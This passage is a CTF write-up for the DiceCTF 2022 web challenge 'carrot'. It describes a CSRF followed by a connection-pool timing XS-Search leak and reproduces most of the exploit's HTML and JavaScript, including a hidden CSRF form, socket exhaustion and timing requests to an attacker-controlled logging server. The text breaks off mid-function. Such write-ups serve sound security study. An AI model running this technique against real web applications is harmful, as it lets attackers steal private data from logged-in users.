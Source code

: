 
## DiceCTF 2022 - carrot

In this case the first step of the exploit was to abuse a CSRF to modify the page where the flag is contained so it has **much more content** (and therefore loading it takes more time), and then **abuse the connection pool to measure the time it takes to access the page** that could be potentially having the flag.

In the exploit you can see:

* Abuse CSRF
* Occupy all the sockets but 1
* Calibrate the response
* Start bruteforcing by accessing the potential page with the flag
  * The potential page will be accessed and immediately an attackers controlled URL will also be accessed to check how much time both requests take.

```html
<h1>DiceCTF 2022 web/carrot</h1>

<p>Step 1: CSRF the admin user, to set a super long title for the flag note (LAX + POST form only possible for 2 minutes after cookies is created)</p>
<button onclick="csrf()">do csrf</button>
<p>Step 2: XS-Search with <a href="https://xsleaks.dev/docs/attacks/timing-attacks/connection-pool/">connection-pool timing leak</a>, we have to use window.open (LAX cookie)</p>

<button onclick="popunder()">open popup</button>
<button onclick="exhaust_sockets()">open 255 connections</button>
<button onclick="oracle('dice{abc')">test search "abc" (slow)</button>
<button onclick="oracle('dice{xxx')">test search "xxx" (fast)</button>
<br>
<br>
<h2 id=output></h2>
<br>
<form id=x action="" method="POST" style="display:none;">
	<input type="text" name="title" placeholder="title">
	<br><br>
	<input type="number" name="priority" placeholder="priority" value=9999>
	<br><br>
	<textarea name="content" placeholder="content" rows="5" cols="20"></textarea>
	<br><br>
	<input type="submit" value="submit">
</form>

<script>

// this is send is used as logging
LOG = 'Starting'
// 255 in normal chrome, 99 in headless
SOCKETLIMIT = 255;
// default
TIMELIMIT = 800;
INSTANCE = ''
MYSERVER = `example.com`

const sleep = (ms) => {
    return new Promise(resolve => {
        setTimeout(resolve, ms);
    });
}

const time_fetch = async() => {
    let test_server_url = `https://${MYSERVER}/?${LOG}`;
    let start = window.performance.now();
    try {
```